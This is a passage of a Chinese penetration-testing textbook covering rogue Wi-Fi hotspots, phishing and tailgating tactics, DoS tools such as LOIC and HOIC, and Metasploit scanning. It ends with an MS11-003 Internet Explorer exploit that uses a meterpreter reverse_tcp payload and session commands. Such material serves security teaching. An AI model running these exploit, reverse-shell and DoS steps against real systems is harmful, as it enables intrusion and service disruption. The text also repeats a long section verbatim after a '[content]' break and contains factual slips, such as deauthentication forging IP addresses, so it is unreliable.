现在如果出现任何问题，例如与其他应用程序冲突、找不到某些文件，Wifi-Honey 会告诉你这一点。根据你使用的虚拟机（如果你使用的是 VM），你可能会遇到无线网卡问题。很多人发现 VM 使用外部 USB 无线网卡效果最好。

但如果一切顺利，你现在就可以从 Kali Linux 机器运行无线接入点。就像在 Windows 上一样，你现在需要打开一些数据包嗅探器。由于 tcpdump 已包含在 Linux 中，这将是一个不错的选择。

## 测试 WAP 管理

除了创建 WAP 之外，你还想检查现有的无线接入点。事实上，这部分可能更重要。无线接入点是无线网络中最重要的一部分。测试其安全性很重要。这只需连接到 Wi-Fi，然后尝试登录其管理界面即可完成。如果系统甚至只有最基本的安全性，你就不应该成功。步骤很简单：

- **STEP 1.** 连接后，运行 `ipconfig`（如果使用 Linux 则为 `ifconfig`）并获取网关 IP 地址。
- **STEP 2.** 打开你的浏览器并连接到网关路由器。
- **STEP 3.** 使用默认密码尝试登录管理界面。你可以通过在互联网上搜索“Default xxx wifi password”，其中 xxx 替换为 Linksys、Belkin、Huawei 或你拥有的无线接入点的品牌，来获取默认 WAP 密码。

再次强调，如果系统甚至只有最基本的安全性，那么这根本就不会成功。这是一个相对容易进行的测试，因此绝对应该是你渗透测试的一部分。事实上，你不应该能够通过无线方式访问管理界面。当你第一次尝试访问路由器的 IP 地址时，如果配置正确，你甚至看不到该管理界面来尝试登录。

显然，此测试的任何成功程度都应在你的渗透测试报告中记录下来。

## 其他 Wi-Fi 问题

以下是你应了解的其他 Wi-Fi 攻击。每一种都可能对你的网络构成危险。

- **Jamming:** 试图干扰 Wi-Fi 信号，使用户无法接入无线网络。这本质上是对无线接入点的拒绝服务攻击。
- **De-authentication:** 向无线接入点发送去认证或注销数据包。该数据包会伪造用户的 IP 地址。这可以用来诱骗用户随后登录到 rogue 接入点。
- **WPS attack:** Wi-Fi Protected Setup（WPS）使用 PIN 连接到 WAP。WPS 攻击试图在传输中拦截该 PIN，连接到 WAP，然后窃取 WPA2 密码。
- **Cracking the password:** 你可能会想知道为什么没有更详细地介绍这一点。原因是在 WEP 很容易被破解的同时，WPA2（今天广泛使用）则不是。破解无线的问题与密码的复杂性以及 WAP 设置有关。最好直接审计这些项目来测试它们。

## 社会工程学

社会工程学是利用人际交往技巧让人们提供他们不应该提供的信息，或做他们不应该做的事情的艺术。坦白说，许多攻击都包含社会工程学的元素。考虑本章前面讨论的 wifi-honey 蜜罐。当攻击者在机场设置并开始广播“freewifi”时，这就是一种社会工程学形式。关于第 5 章讨论的恶意软件，最常见的投递方式之一是通过电子邮件附件。然后攻击的成功取决于能否说服用户实际打开附件。

远程社会工程学涉及旨在鼓励收件人执行某些操作或提供某些信息的通信。社会工程学有多种方法，其中最常见的方法简要描述如下：

- **Urgency:** 这种方法试图说服收件人，如果他们不立即行动，就会发生不好的事情或错过某些东西。
- **Authority:** 采用这种方法时，攻击者试图说服目标攻击者实际上是一个有权威的人，目标必须服从。
- **Greed:** 简单地利用目标的贪婪心理。

当然，你可以把这些结合起来。让我们看看它们在实践中是如何使用的。紧迫性方法是一种常用的方法。例如，一封电子邮件可能会指出收件人的计算机存在重大缺陷，并且必须立即应用随附的补丁以保护该计算机。类似的方法也用于指出收件人的银行账户或信用卡存在问题的电子邮件，如果收件人不立即点击链接并解决，账户将被暂停。目的是让用户在不思考的情况下立即行动。这符合攻击者的最大利益。

权威的使用最好通过描述一种已使用多年的实际攻击来解释。攻击者发送一封声称来自联邦调查局的电子邮件。电子邮件甚至可能带有 FBI 标志。电子邮件内容声称收件人访问了一些被禁止的网站，应点击链接支付罚款。这通常与紧迫性结合，声称如果收件人不立即支付罚款可能会面临监禁。

贪婪是许多钓鱼邮件的常见基础。电子邮件声称如果收件人采取行动，就能获得一笔非常庞大的资金。通常用户必须点击链接或提供某些信息。再次强调，基础是收件人的贪婪。

作为渗透测试人员，向目标公司某些员工发送一些钓鱼邮件通常是一个好主意。唯一能看出公司员工是否会抵制钓鱼邮件的方法就是发送一些。

社会工程学有时也用于物理访问目标设施。一种常见技术是假装受了轻伤，也许使用拐杖，然后站在需要门禁卡或类似物品的入口前。假装在口袋里寻找门禁卡，并显得不稳（记住拐杖）。相当可能有人会让你进入大楼。

## DoS

拒绝服务是任何试图使系统过载以至于无法响应对该服务的合法请求的攻击。有许多众所周知的拒绝服务攻击。在本节中，我们首先回顾更广泛已知的 DoS 变种，然后查看一些允许你在渗透测试期间执行 DoS 攻击的工具。

警告：根据定义，DoS 攻击会使服务离线。你绝不应该在正常工作时间使用它。你会干扰你试图测试的业务。最好在备份系统上执行 DoS 测试，而不是实时系统。如果你必须测试实时系统，那么日期和时间必须仔细选择，以尽量减少对业务的干扰。这会根据业务而有所不同。如果你打算测试一家披萨配送公司的 Web 服务器，那么周一早上大约凌晨 2 点是一个不错的选择。这给了你在高峰业务时间之前纠正任何问题的充足时间。另一方面，如果测试是在一个在工作周内工作正常工作时间的典型办公室进行的，那么在长周末开始时周五晚上开始测试。想法是你在测试完全使服务离线且无法快速恢复的情况下，有时间纠正任何问题。

### 著名的 DoS 攻击

我将首先简要描述众所周知的拒绝服务攻击。这将为你提供攻击者对真实系统使用的真实攻击的理解。


## SYN 洪泛攻击

标准网络通信要求客户端和服务器之间每次连接都进行三次握手，如图 12-8 所示。


FIGURE 12-8 三次握手。

客户端发送一个 SYN（同步）标志打开的数据包。服务器首先为连接分配资源，然后响应 SYN 和 ACK（确认）标志打开的数据包。客户端随后通过响应 ACK 标志打开的数据包来完成连接。

SYN 洪泛攻击的工作原理是客户端发送大量请求连接的 SYN 数据包，但从不对其作出响应。服务器为每个这些连接分配资源，最终耗尽这些资源。配置良好的状态包检测（SPI）防火墙可以防止这种情况。

## Smurf 和 Fraggle 攻击

Smurf 攻击使用 IP 欺骗和 ICMP 的组合来使目标网络的流量饱和。Smurf 由三个要素组成：源站点、中继站点和目标站点。攻击者（源站点）向大型网络（中继站点）的广播地址发送修改后的 ping。修改后的数据包包含目标站点的源地址；中继站点中的每个人都会回复目标站点。

Fraggle 攻击是 Smurf 攻击的一种变体，攻击者向广播地址发送大量 UDP 流量到端口 7（echo）和 19（chargen），伪造目标受害者的源 IP 地址。配置网关路由器/防火墙以禁止传入广播消息将可防止这种情况。

## DHCP 耗尽攻击

如果向网络发送足够多的请求泛滥，攻击者可以无限期地完全耗尽 DHCP 服务器分配的地址空间。有诸如 Gobbler 之类的工具可以为你执行此操作。阻止来自网络外部的传入 DHCP 请求将可防止这种情况。

## 应用层 DoS

应用层拒绝服务正如其名，是针对在应用层运行的某些网络服务的拒绝服务，例如针对数据库。

## HTTP Post DoS 攻击

HTTP post DoS 攻击发送合法的 HTTP post 消息。post 消息的一部分是‘content-length’。它表示后续消息的大小。在此攻击中，攻击者随后以极慢的速度发送实际的消息体。Web 服务器随后“挂起”，等待该消息完成。对于更强大的服务器，攻击者需要同时使用多个 HTTP Post DoS 攻击。

## PDoS

永久性拒绝服务（PDoS）是一种攻击，会严重损坏系统，以至于受害机器需要重新安装操作系统甚至更换新硬件。这有时被称为 *phlashing*。这通常涉及对设备固件的 DoS 攻击。

## DDoS

分布式拒绝服务攻击只是一种来自多个来源的拒绝服务攻击。通常攻击机器甚至不知道自己参与了攻击。这些机器可能已被感染了会发起 DDoS 攻击的恶意软件。前述的任何攻击都可用于 DDoS 攻击。

## 工具

对于渗透测试，你将使用攻击者使用的相同工具。有大量工具可用于执行 DoS 攻击，其中许多可从互联网免费下载。这些工具可以在互联网上找到（具体 URL 会不时更改），大多数可免费下载。

## 低轨道离子炮

这可能是最知名、也是最简单的 DoS 工具之一。简单搜索互联网就会显示出多个可以下载此工具的站点。

启动 LOIC 后，首先将 URL 或 IP 地址放入目标框中。然后点击 **Lock on** 按钮。你可以更改有关使用什么方法、速度、线程数以及是否等待回复的设置。然后只需点击 **IMMA CHARGIN MAH LAZER** 按钮，攻击就开始了。你可以在图 12-9 中看到这一点。


FIGURE 12-9 LOIC.

## 高轨道离子炮

高轨道离子炮比 LOIC 稍微先进一些，但实际上更简单运行。点击 + 按钮添加目标。将出现一个弹出窗口，在其中输入 URL 以及如图 12-10 所示的几个设置。


FIGURE 12-10 HOIC 设置。

然后你可以简单地点击 FIRE TEH LAZER! 按钮开始攻击。

## DoSHTTP

此工具也非常简单易用。你选择目标、代理（即要模拟的浏览器类型）、套接字数量、请求，然后开始泛滥。你可以在图 12-11 中看到这一点。


FIGURE 12-11 DoSHTTP.

## 总结

在本章中，你学习了测试 Wi-Fi 安全性的基本技术。这包括设置自己的 rogue 访问设备，以查看用户是否会被诱骗访问它。你还学习了基本的 Wi-Fi 安全设置以及如何评估这些设置。

我们还介绍了社会工程学的要点。这是许多攻击者会使用的常见技术。因此，它必须是渗透测试的一部分。

最后，我们讨论了拒绝服务攻击。我们首先简要描述了许多众所周知的 DoS 攻击，然后我们查看了你可以用来对正在测试的网络执行 DoS 的特定工具。

## 测试你的技能

### 多项选择题

1. 以下哪项是 WAP 最基本的安全措施？
- A. 更改管理员密码
- B. 使用 WPA2
- C. 使用 MAC 过滤
- D. 阻止不需要的服务

2. 哪种 DoS 攻击依赖于向目标网络的路由器发送虚假广播消息？
- A. SYN 洪泛
- B. PDoS
- C. Smurf
- D. DDoS

3. 为了执行 PDoS，你应该针对以下哪一项？
- A. 数据库服务器
- B. Web 服务器
- C. 应用层
- D. 固件

4. 你被要求对一所小型大学进行渗透测试。以下哪个时间尝试 DoS 测试最好？
- A. 周一早上很早
- B. 长周末前的周五晚上
- C. 期末周
- D. 注册周

### 项目

#### 项目 1：拒绝服务

选择一台隔离的 Windows 机器，最好是在实验室中的一台。打开 IIS（Windows Web 服务器），以便拥有一个 Web 服务器目标。这很容易做到：

如果你未安装 IIS，访问 **Control Panel > Programs > Programs & Features** 将允许你添加它。

然后打开浏览器，并将其指向此机器的 IP 地址（两台计算机应位于同一网络上）。然后你将看到默认的 IIS 网站。

然后使用本章提到的任何 DoS 工具攻击该网站。在攻击进行期间，每隔几秒刷新浏览器，看看网站响应时间发生了什么变化。

#### 项目 2：Wi-Fi

将你的计算机设置为热点，并让合作伙伴访问它。如果你使用的是 Windows 计算机，可以按照本章中的说明进行操作。如果你使用的是 Linux，则使用 Wifi-Honey。你可能还希望在合作伙伴通过你的假热点浏览网页时运行数据包嗅探器。

## Metasploit 简介

### 章节目标

阅读本章并完成练习后，你将能够做到以下几点：
- 了解 Metasploit 的基础知识
- 执行基本的 Metasploit 命令
- 使用 Metasploit 执行扫描
- 使用 Metasploit 执行基本利用

Metasploit 可能是黑客和渗透测试人员使用最广泛的工具。仅凭这一点，你就不能成为一名渗透测试人员，而没有至少对 Metasploit 有一定的工作知识。

在深入之前，我们需要介绍一些内容。

首先，Metasploit 到底是什么？简单来说，它是一个向目标交付漏洞利用的框架。你可以获取一个有文档记录的漏洞，找到针对该漏洞设计的漏洞利用程序，然后将其交付给目标机器。有时这是直接完成的，发送到 IP 地址和端口。有时，对于某些漏洞利用，Metasploit 充当 Web 服务器，你向客户端发送一个链接。如果客户端点击链接，且其系统容易受到该攻击，你就成功了。因此，它是一个非常多功能的工具。而且，正如你在本章中将看到的，它并不难学习。

第二点需要知道的是，Metasploit 只是一个工具。它是一个好工具，但只是一个工具。黑客攻击（无论动机或意图如何）并不是关于某个特定工具。它是关于探索目标并了解它。我提到这一点是因为我经常遇到将 Metasploit 吹捧为黑客攻击的万能之人的情况。他们会让你相信，如果你只是拥有 Metasploit，一切尽在掌握。不仅如此，这与事实相去甚远，令人震惊。我想知道这些人是否曾在真实系统上使用过 Metasploit，还是只在课堂实验室中使用过。因为事实是，如果你做对了所有事情，但目标机器不受该

针对特定漏洞利用，如果你进不去。那就进不去。如果一台机器彻底打了补丁，你可能也进不去。但从渗透测试者的角度来看，这正是你希望测试的那种情况！

这就引出了第三点。你将如何练习 Metasploit？你至少需要两样东西：

- Kali Linux 攻击机
- 至少一个目标

幸运的是，你可以将两者都作为虚拟机，并让一个 VM 攻击另一个。但目标应该是什么类型的机器？对此有两种方法。第一种是获取一个逼真的现代目标。一台已修补的 Windows 10 机器（或你在阅读本文时当前版本）非常逼真，但事实是，你尝试的大部分内容都不会奏效。如果你想保证本书中描述的一些甚至全部攻击都能奏效，那么请获取一个没有 service pack 1 的 Windows 7 版本。有几个地方可以寻找目标机器：

- Microsoft 为测试提供虚拟机，你可以在 https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/ 找到它们。然而，它们所有的 Windows 7 VM 都带有 service pack 1 并且无法移除。这可能意味着本章中的某些漏洞利用将无法工作。
- 如果你有 MSDN 订阅（而且是免费的），你可能可以从那里获取 Windows 7 iso。
- 有很多网站出售旧版本的 Windows。但如果你想保证攻击有效，请确保获取一个没有 service pack 1 的版本。
- 人们经常在像 eBay 这样的地方出售旧版本的 Windows。同样，请务必检查确保它没有 service pack 1，以保证你在这些漏洞利用中取得成功。

现在，让你尝试一台没有服务包的 Windows 7 机器可能看起来有点人为。但本章是为 Metasploit 初学者准备的。它是为了让你成功。但请注意，你进入这些机器的轻松程度在你转向可能已修补（或至少应该已修补！）的真实机器时不会再现。

设置虚拟机的方式会因目标是在另一台计算机上还是在同一主机上的不同虚拟机而略有不同：

- 作为 Live USB 安装并带持久性。此选项安装非常容易；然而，VM 可能不在与主机相同的子网中。VM 仍应能够 ping 主机。如果你在主机 ping VM 和 VM ping 主机时遇到问题，则手动设置 IP 地址，使其位于与主机相同的子网中。
- 将 VM 网络设置为 **bridge** 并使用 **ifconfig eth0** 192.168.0.XXX 手动设置静态 IP 地址（或任何你想要使用的范围，只要所有相关机器都在同一范围内即可）。

**Note**

**注意**

如果从同一主机上的 Kali VM 到受害者 VM，则设置为 **host only adapter** 并 **allow all**。

## Background on Metasploit

## 关于 Metasploit 的背景

Metasploit 最早于 2003 年创建，并用 Perl 编写。它由一位名叫 H. D. Moore 的人开发。Moore 是一位知名的安全专家和黑客。2007 年，它被重写为 Ruby。2009 年，Metasploit 被 Rapid7 公司收购，该公司现在负责 Metasploit 的所有维护和分发。

实际上，Metasploit 的很大一部分可以分为你将使用的四种类型的对象：

- **Exploits:** 这些是攻击特定漏洞的代码片段。换句话说，漏洞利用是针对特定漏洞的。
- **Payload:** 这是你实际发送到目标的代码。一旦漏洞利用让你进入，它就是在目标机器上实际执行肮脏工作的代码。
- **Auxiliary:** 这些模块提供一些额外功能。例如，扫描。
- **Encoders:** 这些将漏洞利用嵌入到 PDF、AVI 等其他文件中。我们将在下一章看到它们。

这可能通过 Rapid7（分发 Metasploit 的公司）的解释会更清楚：

> 漏洞是软件、硬件或操作系统中的安全漏洞，为攻击系统提供了潜在角度。漏洞可能像弱密码一样简单，也可能像缓冲区溢出或 SQL 注入漏洞一样复杂。
> 
> 为了利用漏洞，你通常需要一个漏洞利用程序，这是一个小型且高度专门化的计算机程序，其存在的唯一理由就是利用特定漏洞并提供对计算机系统的访问。漏洞利用通常会向目标系统传递有效载荷，以授予攻击者对系统的访问权限。
> 
> Metasploit 项目托管着全球最大的经过质量保证的漏洞利用公共数据库。查看我们的漏洞利用数据库——它就在网站上。
> 
> (https://kb.help.rapid7.com/v1.0/docs/penetration-testing)

## Getting Started with Metasploit

## 开始使用 Metasploit

好吧，你已经读够了背景知识，你想看看 Metasploit！好吧，我们不要再拖延了。在 Kali Linux 中你有两个选择。第一个就是直接使用桌面 GUI 并点击 Metasploit 图标。你可以在图 13-1 中看到如何找到它。


FIGURE 13-1 Launching Metasploit.

图 13-1 启动 Metasploit。

第二个选项是手动操作。打开 shell 并执行三个命令：

- 1. `service postgresql start`
- 2. `msfdb init`
- 3. `msfconsole`

你可以在图 13-2 中看到这一点。


FIGURE 13-2 Manually Starting Metasploit.

图 13-2 手动启动 Metasploit。

现在一旦你输入 **msfconsole** 并按下 **Enter**，就会发生很多事情。你会看到大量信息在屏幕上滚动。无论你手动启动 Metasploit 还是通过 GUI，最终结果都类似于图 13-3 中所示。


FIGURE 13-3 Metasploit Started.

图 13-3 Metasploit 已启动。

屏幕上显示的消息告诉你，你的 Metasploit 有效载荷可能会被某些防病毒产品检测到。建议是升级到 Metasploit Pro 并使用该产品中的动态有效载荷。现在你只需要做一件事就可以开始了。那就是检查数据库。Metasploit 使用数据库。检查并确保其正常运行的方法是输入：

```
db_status
```

如果一切正常，你将看到图 13-4 中显示的消息。


FIGURE 13-4 Database Connected.

图 13-4 数据库已连接。

如果有任何问题，你将看到图 13-5 中显示的消息。


FIGURE 13-5 Database Not Connected.

图 13-5 数据库未连接。

如果数据库连接不工作，你仍然可以使用 Metasploit，但你将无法将结果保存到数据库中。但现在你准备好使用 Metasploit 了！

## Basic Usage of msfconsole

## msfconsole 的基本用法

我们将在本节开始介绍基本导航和命令。在下一节中，你将学习如何使用 Metasploit 进行扫描和执行漏洞利用；然而，你需要参考这些命令在 Metasploit 中导航。

### Basic Commands

### 基本命令

你在 Metasploit 中最频繁使用的基本命令简要描述如下：

- **back:** 此命令用于退出漏洞利用。例如，如果你刚刚尝试了一个漏洞利用且未成功，并且希望尝试另一个，则使用此命令返回到主 Metasploit 控制台。
- **load:** 你将经常使用此命令。它允许你加载任何模块/插件。
- **unload:** 这将卸载插件。
- **exit or quit:** 这些应该很明显。它们退出 Metasploit。
- **use:** 到本章结束时，你将非常熟悉此命令。它是告诉 Metasploit 你将使用什么的命令。这将在下一节关于扫描的内容中变得非常清晰。
- **show exploits:** 这显示漏洞利用。
- **show payloads:** 一旦你加载了漏洞利用，这将显示你可以用该漏洞利用使用的有效载荷。
- **show options:** 如果你加载有效载荷或漏洞利用，**show options** 将告诉你可以设置哪些选项以及必须设置哪些选项。
- **jobs:** 此命令显示当前正在运行的作业。
- **kill:** 此命令用于终止任何正在运行的作业。
- **sessions:** 这显示活动会话。如果你的漏洞利用成功，则你将有一个或多个正在运行的会话。然后你可以使用 **sessions -i 3**（将 **3** 替换为你想要的会话号）来控制该会话并与目标机器交互。
- **msfupdate:** Metasploit 不时会更新框架。如果你想要最新版本，你可以从 shell 输入 **msfupdate**。注意我说的是从 shell，而不是从 Metasploit 内部。

这是 Linux，请记住 Linux 区分大小写。

再次强调，这些是最基本的命令。随着你阅读本章，你可能希望不时参考此列表。

### Searching

### 搜索

Metasploit 包含很多内容。如果你无法全部记住，也情有可原。幸运的是，它还具有非常好的内置搜索功能。你可以以多种方式轻松搜索漏洞利用。让我们从按平台搜索开始。

你可以尝试：

```
search platform:Windows
```

但这会迅速用大量结果填满许多屏幕。而且帮助不大。给定的漏洞利用是针对 Windows 7、Windows 8、Windows Server 2016 还是 Windows 10？你可以修改它使其更具体：

```
search platform:"Windows 8.1"
```

这将帮助你获得所需的内容。你可以在图 13-6 中看到这一点。


图 13-6 按平台搜索。

这只是众多搜索选项中的一个。这里还有一些其他选项：

- search name:mysql
- search path:scada
- search author:jsmith

你甚至可以组合搜索：

```
search cve:2011 author:jsmith platform:linux
```

按作者搜索似乎很奇怪。但这些利用是由个人利用作者创建的。随着时间的推移和经验的积累，你很可能会发现一些你更喜欢的作者。如果你不喜欢 shell 界面，Rapid7 维护了一个在线 Exploit 数据库，你可以通过其网站访问：https://www.rapid7.com/db/modules/。

你输入相同的搜索类型，但会获得更多信息。例如，在图 13-7 中我搜索了 Windows 10。

当你点击这些搜索结果之一时，这个在线数据库的强大之处就显现出来了，就像我在图 13-8 中所做的那样。

屏幕会告诉我作者、目标和可靠性。并非每个利用都是十拿九稳的。这会告诉我该利用的可靠性如何。这是非常有用的信息。

显示 991 条结果中的第 1 - 10 条

## 搜索结果："windows 10"

返回搜索

## Microsoft CVE-2017-0293: Windows PDF 远程代码执行漏洞

漏洞

严重程度：8

发布日期：August 07, 2017

当 Microsoft Windows PDF 库在内存中处理对象时存在远程代码执行漏洞。该漏洞可能会以一种使攻击者能够在当前用户上下文中执行任意代码的方式损坏内存。成功利用该漏洞的攻击者可以获得与当前用户相同的使用权...

## Windows UAC 保护绕过（通过 FodHelper 注册表项）

利用

公开日期：May 12, 2017

该模块将通过劫持当前用户配置单元下注册表中的一个特殊键来绕过 Windows 10 UAC，并在 Windows fodhelper.exe 应用程序启动时插入一个自定义命令。它将生成一个第二个 shell，其 UAC 标志已关闭。该模块修改了...

图 13-7 Windows 10 搜索。

## Windows UAC 保护绕过（通过 FodHelper 注册表项）

返回搜索

该模块将通过劫持当前用户配置单元下注册表中的一个特殊键来绕过 Windows 10 UAC，并在 Windows fodhelper.exe 应用程序启动时插入一个自定义命令。它将生成一个第二个 shell，其 UAC 标志已关闭。该模块修改了一个注册表项，但在有效载荷被调用后会清理该键。该模块不需要有效载荷的架构与操作系统匹配。如果指定 EXE::Custom，你的 DLL 应在单独进程中启动有效载荷后调用 ExitProcess()。

## 模块名称

exploit/windows/local/bypassuac_fodhelper

## 作者

winscriptingblog

amaloteaux <alex_maloteaux [at] metasploit.com>

## 目标

Windows x86

Windows x64

## 平台

windows

## 架构

x86

x64

## 可靠性

优秀

免费 Metasploit 下载

获取全球领先的渗透测试工具副本

立即下载

图 13-8 利用详情。

## 使用 Metasploit 扫描

正如你在本书前面的部分所看到的，扫描目标是一个重要步骤。如果你对目标了解不多，在尝试入侵时将不会取得多大成功。幸运的是，Metasploit 支持大量搜索，如以下各节所述。

### SMB 扫描器

Server Message Block（SMB）由 Windows Active Directory 使用。当你为此进行扫描时，你是在检查目标是否为 Windows 计算机。扫描很简单：

```
use scanner/smb/smb_version
set RHOSTS 192.168.1.177
set THREADS 4
run
```

当然，你应该用你要扫描的目标的 IP 地址替换 IP 地址 192.168.1.177。你可以在图 13-9 中看到结果。


图 13-9 SMB 扫描器。

虽然这很简单，但其中包含大量信息。所以让我们逐行[content]


图 13-6 按平台搜索。

这只是众多搜索选项中的一个。这里还有一些其他选项：

- search name:mysql
- search path:scada
- search author:jsmith

你甚至可以组合搜索：

```
search cve:2011 author:jsmith platform:linux
```

按作者搜索似乎很奇怪。但这些利用是由个人利用作者创建的。随着时间的推移和经验的积累，你很可能会发现一些你更喜欢的作者。如果你不喜欢 shell 界面，Rapid7 维护了一个在线 Exploit 数据库，你可以通过其网站访问：https://www.rapid7.com/db/modules/。

你输入相同的搜索类型，但会获得更多信息。例如，在图 13-7 中我搜索了 Windows 10。

当你点击这些搜索结果之一时，这个在线数据库的强大之处就显现出来了，就像我在图 13-8 中所做的那样。

屏幕会告诉我作者、目标和可靠性。并非每个利用都是十拿九稳的。这会告诉我该利用的可靠性如何。这是非常有用的信息。

显示 991 条结果中的第 1 - 10 条

## 搜索结果："windows 10"

返回搜索

## Microsoft CVE-2017-0293: Windows PDF 远程代码执行漏洞

漏洞

严重程度：8

发布日期：August 07, 2017

当 Microsoft Windows PDF 库在内存中处理对象时存在远程代码执行漏洞。该漏洞可能会以一种使攻击者能够在当前用户上下文中执行任意代码的方式损坏内存。成功利用该漏洞的攻击者可以获得与当前用户相同的使用权...

## Windows UAC 保护绕过（通过 FodHelper 注册表项）

利用

公开日期：May 12, 2017

该模块将通过劫持当前用户配置单元下注册表中的一个特殊键来绕过 Windows 10 UAC，并在 Windows fodhelper.exe 应用程序启动时插入一个自定义命令。它将生成一个第二个 shell，其 UAC 标志已关闭。该模块修改了...

图 13-7 Windows 10 搜索。

## Windows UAC 保护绕过（通过 FodHelper 注册表项）

返回搜索

该模块将通过劫持当前用户配置单元下注册表中的一个特殊键来绕过 Windows 10 UAC，并在 Windows fodhelper.exe 应用程序启动时插入一个自定义命令。它将生成一个第二个 shell，其 UAC 标志已关闭。该模块修改了一个注册表项，但在有效载荷被调用后会清理该键。该模块不需要有效载荷的架构与操作系统匹配。如果指定 EXE::Custom，你的 DLL 应在单独进程中启动有效载荷后调用 ExitProcess()。

## 模块名称

exploit/windows/local/bypassuac_fodhelper

## 作者

winscriptingblog

amaloteaux <alex_maloteaux [at] metasploit.com>

## 目标

Windows x86

Windows x64

## 平台

windows

## 架构

x86

x64

## 可靠性

优秀

免费 Metasploit 下载

获取全球领先的渗透测试工具副本

立即下载

图 13-8 利用详情。

## 使用 Metasploit 扫描

正如你在本书前面的部分所看到的，扫描目标是一个重要步骤。如果你对目标了解不多，在尝试入侵时将不会取得多大成功。幸运的是，Metasploit 支持大量搜索，如以下各节所述。

### SMB 扫描器

Server Message Block（SMB）由 Windows Active Directory 使用。当你为此进行扫描时，你是在检查目标是否为 Windows 计算机。扫描很简单：

```
use scanner/smb/smb_version
set RHOSTS 192.168.1.177
set THREADS 4
run
```

当然，你应该用你要扫描的目标的 IP 地址替换 IP 地址 192.168.1.177。你可以在图 13-9 中看到结果。


图 13-9 SMB 扫描器。

虽然这很简单，但其中包含大量信息。所以让我们逐行进行，以便你完全理解。第一行是

```
use scanner/smb/smb_version
```

你将在本章中看到类似这样的行。这是在说你打算使用一个特定的模块。并且它给出了该模块的路径。注意路径的第一部分是 scanner。这个特定目录有许多可用的扫描器。下一行是

```
set RHOSTS 192.168.1.177
```

首先注意 RHOSTS。这是要扫描的远程主机（们）的 IP 地址。有些模块会有 RHOST，表示只能扫描一个目标，而另一些模块会有 RHOSTS，表示如果需要可以扫描多个目标。只要模块使用 RHOSTS 而不是 RHOST，你就可以扫描一系列 IP 地址。只需将命令修改为：

```
set RHOSTS 192.168.1.177 192.168.1.215
```

然后我们有：

```
set THREADS 4
```

这是在告诉 Metasploit 运行此模块时使用多少线程。对此没有具体规则，除非选择过高的数字导致你自己的机器 CPU 无法处理。如有疑问，只需使用一个线程。最后，我们有：

```
run
```

本章中看到的每个模块都以 run 或 exploit 结尾。这只是告诉 Metasploit 去执行你刚刚设置的内容。如果目标没有你要扫描的服务，那么 Metasploit 只会简单地表明扫描已完成。

### SQL Server 扫描

现在让我们扫描 SQL Server。如果你仔细研究了 SMB 扫描，那么这里的命令就会很明显。你输入：

```
use auxiliary/scanner/mssql/mssql_ping
set RHOSTS 192.168.1.177
Set THREADS 1
Set USE_WINDOWS_AUTHENT false
run
```

只有一个新项目，USE_WINDOWS_AUTHENT false。这只是告诉 Metasploit 你没有 SQL Server 的登录凭据，因此不要尝试登录。图 13-10 显示了结果。


图 13-10 SQL Server 扫描。

在继续进行其他扫描之前，让我们做一些我们尚未做过的事情。让我向你展示如何自己查找这些模块的选项，而不是简单地接受我告诉你的内容。在使用 use auxiliary/scanner/mssql/mssql_ping 加载模块后，输入 show options。Metasploit 会告诉你该模块的选项有哪些，以及哪些是必需的，哪些是可选的。你可以在图 13-11 中看到这一点。


图 13-11 使用 show options 查看模块的选项。

在学习 Metasploit 时，我建议你在每次使用任何模块后都运行 show options。稍微研究一下选项。本章结束时，目标是让你基本熟练掌握 Metasploit，而不是仅仅死记硬背几个命令。

### SSH 服务器扫描

这是在目标上检测 Secure Shell（SSH）服务器的扫描。命令与你已经看到的非常相似：

```
use scanner/ssh/ssh_version
set RHOSTS 192.168.1.177
Set THREADS 1
Set USE_WINDOWS_AUTHENT false
Run
```

因为所有这些命令都已经解释过了，所以不需要进一步解释。你可以在图 13-12 中看到结果。


图 13-12 SSH 扫描。

### 匿名 FTP 服务器

正如你可能猜到的，这会扫描允许匿名登录的 FTP 服务器。这是一个重大的漏洞：

```
use auxiliary/scanner/ftp/anonymous
set RHOSTS 192.168.1.177
Set RPORT 21
Set THREADS 1
Set USE_WINDOWS_AUTHENT false
run
```

你可能会注意到一些扫描位于 /scanner/ 目录中，但许多位于 /auxiliary/scanner/ 目录中。图 13-13 显示了此扫描的结果。


图 13-13 匿名 FTP 扫描。

### FTP 服务器

如果你想查找 FTP 服务器，即使它们不是匿名的，命令也非常相似，正如你所期望的：

```
use auxiliary/scanner/ftp/ftp_version
set RHOSTS 172.20.0.1
show options
run
```

图 13-14 显示了结果。


图 13-14 FTP 扫描。

显然，你可以执行许多其他扫描。这些应该是对你理解 Metasploit 的一个良好开端。我建议你首先对你知道结果应该是什么的机器执行这些扫描。在你知道有 FTP 服务器的机器上尝试 FTP 扫描器，然后在你知道没有的机器上尝试。每次都检查 show options。在继续进行利用之前，先熟悉扫描。扫描本身就是获取目标信息的强大工具。

## 如何使用利用

使用利用与使用扫描并没有太大区别。你会看到命令的语法非常相似。现在请记住，利用只有在目标具有该特定漏洞时才有效。如果没有，那么利用将无法工作。如果你想要保证这些有效，请使用没有 service pack 1 的 Windows 7 目标。然后大多数这些都很容易工作。


## 利用示例

正如本章前面所学，你可以在网上或在 Metasploit 中搜索大量利用程序。这里我只展示几个作为示例。

### 级联样式表

此攻击基于 Internet Explorer 在 Windows 7 上处理和解析级联样式表时的缺陷。此攻击分为两部分。第一部分在 Kali 机器上执行：

```
use exploit/windows/browser/ms11_003_ie_css_import
set payload windows/meterpreter/reverse_tcp
set URIPATH /clickhere
set LHOST 10.0.2.20
exploit
```

其中一些看起来与扫描类似。你从 **use** 语句开始，就像扫描一样。但随后你有一个第二个命令，用于设置 payload。基本上，这意味着你在使用特定的利用程序，然后设置希望交付给目标的 payload。**URIPATH** 会在 IP 地址后给出一个路径。这就引出了 **LHOST**，它是监听主机（listening host）的缩写。IP地址是你的 Kali 机器的 IP 地址。然后输入 **exploit**。图 13-15 显示了此扫描的运行情况。


图 13-15 CSS 利用。

此时，你的 Kali 机器充当一个等待有人连接的 Web 服务器。现在在目标机器上，打开 Internet Explorer 并导航到 http://10.0.2.20:8080/clickhere。

如果该目标机器存在漏洞，你将在 Kali 机器上看到一串活动。它看起来与图 13-16 中显示的非常相似。


图 13-16 CSS 攻击进行中。

屏幕上的消息流停止后，输入：

```
sessions -l
```

这将列出当前会话。如果看到任何数字，则表示你获得了会话。如果没有，则攻击失败。如果获得了会话，则尝试 sessions -i 3（将 3 替换为你的会话编号），如图 13-17 所示。

现在你已经有了会话，可以做什么呢？嗯，本章后面我们将讨论可以执行的各种后利用操作，但现在，让我们先验证一下你是否确实建立了连接。输入：

```
sysinfo
```

